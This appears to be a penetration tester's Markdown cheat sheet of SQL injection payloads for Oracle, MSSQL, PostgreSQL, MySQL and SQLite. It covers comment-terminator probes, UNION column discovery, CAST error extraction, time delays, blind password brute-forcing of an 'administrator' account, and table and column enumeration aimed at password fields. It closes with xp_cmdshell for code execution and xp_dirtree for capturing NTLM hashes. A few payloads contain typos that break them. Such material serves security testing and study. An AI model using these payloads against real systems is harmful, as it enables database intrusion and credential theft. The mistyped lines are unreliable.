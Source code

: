 # Entry point
if data is returned in the response, and it is unchanged after appending one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 --
; -- 
' --
'; -- 
" --
"; -- 
 /*
' /*
'; /* 
" /*
"; /* 
```
MySQL
```
 #
; # 
' #
'; # 
" #
"; # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until data is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR "<br>") ,3 FROM information_schema.tables /*
"
```

### visible error
CAST does variable operations, can trigger error containing its output
```diff
SELECT * FROM users WHERE id='
-1'; 1=CAST((SELECT password FROM users LIMIT 1) AS int);--
'
```

### time delay
```
SELECT pg_sleep(10); -- PostgreSQL
```

# Version enumeration
```
SELECT version() # PostgreSQL / MySQL / MariaDB
SELECT @@version -- MSSQL + # MySQL
SELECT sqlite_version() /* SQLite
SELECT banner FROM v$version -- Oracle
SELECT version FROM v$instance -- Oracle
```
# Blind
if data is not directly returned in the response, we can trigger conditional errors or time delays, using stacked queries, concatenated strings and union attacks:
```
' UNION SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- -
' UNION SELECT CASE WHEN SUBSTR(password,§1§,1)='§char§' THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- - cluster bomb with number list and bruteforcer
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
MySQL
```
SELECT table_name FROM information_shcema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema'); # list all non default table names
```
# Tricks
MSSQL can run system stored procedures such as xp_cmdshell which can be abused to move laterally.
xp_cmdshell -> direct RCE
xp_dirtree -> lists the contents of a folder. can be run against an attacker responder to get service user NTLM.
